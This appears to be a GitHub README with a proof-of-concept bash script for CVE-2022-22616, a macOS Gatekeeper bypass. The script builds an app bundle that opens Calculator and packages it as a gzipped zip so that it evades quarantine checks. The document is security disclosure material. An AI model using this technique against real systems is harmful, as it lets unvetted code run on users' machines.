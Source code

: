 # CVE-2022-22616 (Gatekeeper Bypass)

POC:

```shell
#!/bin/bash
mkdir -p poc.app/Contents/MacOS
echo "#!/bin/bash" > poc.app/Contents/MacOS/poc
echo "open -a Calculator" >> poc.app/Contents/MacOS/poc
chmod +x poc.app/Contents/MacOS/poc
zip -r poc.app.zip poc.app
gzip -c poc.app.zip > poc.app.zip.gz
```

Details: https://jhftss.github.io/CVE-2022-22616-Gatekeeper-Bypass/

